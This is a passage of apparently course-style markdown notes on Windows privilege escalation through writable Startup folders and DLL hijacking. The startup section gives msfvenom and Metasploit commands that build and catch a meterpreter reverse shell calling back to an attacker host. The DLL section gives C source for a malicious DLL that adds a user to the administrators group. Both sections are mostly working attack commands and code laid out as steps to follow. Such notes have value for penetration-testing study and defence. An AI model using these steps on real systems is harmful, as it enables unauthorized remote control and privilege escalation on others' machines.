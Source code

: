 	- `net start filepermsvc`
	
## Escalation Path: Startup Applications
- Startup applicatins are similar to autoruns that we perform. When we boot up our machine, an application is going to startup.
- We will use icacls, it will look at the permissions of ACLs and allow us to see where we might have access.
- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`
- From the output notice that the `BUILTIN\Users` group has full access '(F)' to the directory.
- Exploitation
	- Create a payload
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker-ip -f exe -o x.exe`
  - Copy the generated file, x.exe, to the Windows VM.
  - Place x.exe in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`
  - Open Metasploit
  	- `use multi/handler/`
  	- `set payload windows/meterpreter/reverse_tcp`
  	- `set lhost <attacker-ip>`
  		- `run`
  - Log off and Login.
- icacls Documentation: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

## Escalation Path: DLL Hijacking
- DLL are libraries that contain code annd procedures used by Windows programs similar to .so (Shared Library) files in Unix.
- DLL hijacking is a method of injecting malicious code into a given service or application by loading an evil DLL, often replacing the originnal one, that will be executed when the service starts.
- If the application or service runs with administrative privileges, then the attacker can be able to run malicious DLL with elevated privileges.
- DLL Hijacking happens in two conditions.
	- Absolute Path
		- If the service has an absolute path, check if the path is writeable and place a malicious DLL file in the absolute path. 
	- Undefined Path
		- The directory from which the application loaded
    - C:\Windows\System32
    - C:\Windows\System
    - C:\Windows
    - The current working directory
    - The directories that are listed in the PATH environment variable.
		- If the service has an undefined path, check all the paths mentioned above and determine if any of them is writeable and place a malicious DLL file in the writeable path.
-Discovery
	- Open the Process Monitor Filter application
	- Path -> Ends With -> .dll
	- Result -> is -> NAME NOT FOUND.
	- Apply
- After find the .dll file which is writable or .dll which is not recognized. Note down the name of dll file and the path..
- Create a Payload in C. Example: hijackme.dll
```c
# include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /k net localgroup administrators user /add");
		ExitProcess(0);
	}
	return TRUE;
}
```
- Compile the program.